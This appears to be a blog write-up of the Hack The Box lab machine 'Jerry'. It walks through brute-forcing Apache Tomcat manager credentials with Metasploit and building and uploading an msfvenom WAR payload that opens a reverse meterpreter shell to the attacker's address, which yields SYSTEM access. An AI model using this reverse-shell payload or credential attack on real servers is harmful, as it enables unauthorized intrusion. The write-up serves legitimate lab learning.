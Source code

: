 ```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
## Name: Jerry
## OS: Windows
## Dificulty: Easy
[link](https://app.hackthebox.com/machines/144)
---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![[Pasted image 20240402125101.png]]
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![[/assets/img/jerry/Pasted image 20240402113416.png]]

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![[/assets/img/jerry/Pasted image 20240402114540.png]]

![[/assets/img/jerry/Pasted image 20240402114551.png]]
_file uploaded successfully!_

Then visit the page with the file we early extracted

![[/assets/img/jerry/Pasted image 20240402114612.png]]

And, we get a shell!!!
 
![[/assets/img/jerry/Pasted image 20240402114657.png]]
![[/assets/img/jerry/Pasted image 20240402114720.png]]
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![[/assets/img/jerry/Pasted image 20240402114814.png]]

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![[/assets/img/jerry/Pasted image 20240402114857.png]]

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻